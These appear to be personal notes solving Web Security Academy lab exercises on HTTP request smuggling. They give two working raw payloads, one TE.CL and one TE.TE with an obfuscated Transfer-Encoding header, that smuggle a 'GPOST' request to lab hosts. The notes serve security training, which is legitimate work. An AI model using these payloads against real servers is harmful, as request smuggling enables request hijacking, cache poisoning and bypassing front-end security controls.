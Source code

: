 ### LAB 2

It's the same logic: Frontend forwards the entire request, backend only see's some of it, the rest is left unprocessed and will be seen as the next HTTP request.
Front end see's the request until the 0 byte, backend only see's the request until what content-length allows. Solutin:

```

POST / HTTP/1.1
Host: 0a3e00eb042b50ccc0fb12c9008d003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
0

```

TE-TE:

Make one of the servers not process the TE header in some way.

### LAB 2

```

POST / HTTP/1.1
Host: 0a48004d04017b53c0a8806e00fd0057.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
